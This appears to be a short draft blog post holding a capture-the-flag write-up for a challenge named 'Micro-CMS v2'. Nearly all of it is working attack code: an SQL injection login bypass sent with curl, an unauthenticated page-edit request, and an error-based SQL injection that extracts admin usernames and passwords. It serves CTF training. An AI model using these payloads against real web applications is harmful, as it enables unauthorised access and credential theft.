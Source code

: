 +++
draft = true
date = 2019-11-22T22:19:21+01:00
title = "Micro-CMS v2"
tags = ["CTF"]
+++

Flag 0

```sql
' or true union all select '123' order by password asc limit 1 -- -+
```

```bash
PAYLOAD="username=$SQL&password=123
```

```bash
curl -d $PAYLOAD -v $TARGET/login
```

Flag 1

```bash
curl -v -d 'title=123&body=324' $TARGET/page/edit/3
```

Flag 2

```sql
(select 1 from
    (select count(*), concat(
        (select
            (select
                (SELECT concat(0x7e, 0x27, cast(admins.username as char), 0x27, 0x7e) FROM `level2`.admins LIMIT 0,1)
            ) from information_schema.tables limit 0,1
        ), floor(rand(0)*2)
     ) x from information_schema.table s group by x ) a
)
```

then the same but with `admins.password` field.

## Links

https://github.com/swisskyrepo/PayloadsAllTheThings
